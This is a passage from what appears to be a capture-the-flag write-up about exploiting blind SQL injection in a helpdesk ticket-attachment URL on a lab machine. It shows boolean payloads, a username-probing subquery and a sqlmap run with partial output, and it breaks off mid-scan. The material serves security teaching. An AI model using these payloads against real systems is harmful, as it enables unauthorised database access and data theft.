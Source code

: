 ### Analysis

The exploit code didn’t just work out of the box for me. But in reading it, I could understand what it was doing. Basically, I needed to login and create a ticket. That ticket needed to have an attachment (I created an empty file named `hdz_0xdf.txt`). On submitting, I could see my ticket:

![1559687332620](https://0xdfimages.gitlab.io/img/1559687332620.png)

The link to the attachment is: `http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6`. If I visit that link, I get a download dialog:

![1559687423953](https://0xdfimages.gitlab.io/img/1559687423953.png)

The SQLi is in the last param. I can show by adding `and 1=1-- -` to the end of the url. Same download pop up. But if I add `and 1=2-- -` to the end of the url, I get:

![1559687507879](https://0xdfimages.gitlab.io/img/1559687507879.png)

That’s a blind injection. I can pass some test in, and get true (downloaded attachment) or false (Whoops!) back.

For example, `and (select (username) from staff limit 0,1) = 'admin'-- -` returns attachment, while `and (select (username) from staff limit 0,1) = '0xdf'-- -`returns Whoops!.

### sqlmap

I could script this up, but this seems like a good chance to let `sqlmap` dump the db. I’ll download the attachment through burp, and save the request to a file.

![1559764016188](https://0xdfimages.gitlab.io/img/1559764016188.png)

Then I can run:

```

root@kali# sqlmap -r ticket_attachment.request --level 5 --risk 3 -p param[]
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.4#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:33:15 /2019-06-04/

[17:33:15] [INFO] parsing HTTP request from 'ticket_attachment.request'
[17:33:15] [INFO] testing connection to the target URL
[17:33:15] [INFO] testing if the target URL content is stable
[17:33:16] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
[17:33:16] [WARNING] heuristic (basic) test shows that GET parameter 'param[]' might not be injectable
[17:33:16] [INFO] testing for SQL injection on GET parameter 'param[]'
[17:33:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:33:17] [INFO] GET parameter 'param[]' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --not-string="go")
[17:33:19] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
...[snip]...
[17:33:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
```